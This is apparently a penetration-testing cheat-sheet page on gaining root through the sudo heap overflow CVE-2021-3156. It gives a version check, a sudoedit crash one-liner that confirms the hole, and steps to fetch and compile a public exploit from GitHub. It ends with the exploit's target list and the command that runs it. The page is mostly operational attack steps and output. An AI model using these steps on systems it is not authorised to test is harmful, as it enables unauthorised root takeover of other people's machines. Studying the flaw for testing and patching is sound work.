 In `sudo` versions `1.8.1` - `1.8.31p2` and `1.9.0` - `1.9.5p1`, there exists a heap-based buffer overflow vulnerability that enables a low-privileged user to execute code as `root`. No misconfiguration is required to exploit this vulnerability--the vulnerable `sudo` version is enough.

### Process

1. Determine if the current `sudo` version is vulnerable (see above vulnerable version ranges).

```bash
sudo --version
```

2. If the current version of `sudo` lies within the vulnerable range, you can optionally use this proof of concept to validate the existence of the vulnerability. If it results in a memory error, `sudo` is vulnerable.

```bash
sudoedit -s '\' $(python -c 'print("A"*1000)')
```

3. If the current version of `sudo` is vulnerable, download the exploit source code from [bl4sty's Exploit Github Repository](https://github.com/blasty/CVE-2021-3156), and compile it with the repository's `Makefile`. As always, it's best to compile it on the target machine or on a machine with the same operating system version.

	If you run the exploit with no argments, it will display a list of three potential "targets" depending on `sudo` version and operating system version. Choose the target integer based on your operating system and `sudo` version.

```bash
$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------
  
$ ./sudo-hax-me-a-sandwhich $TARGET
```
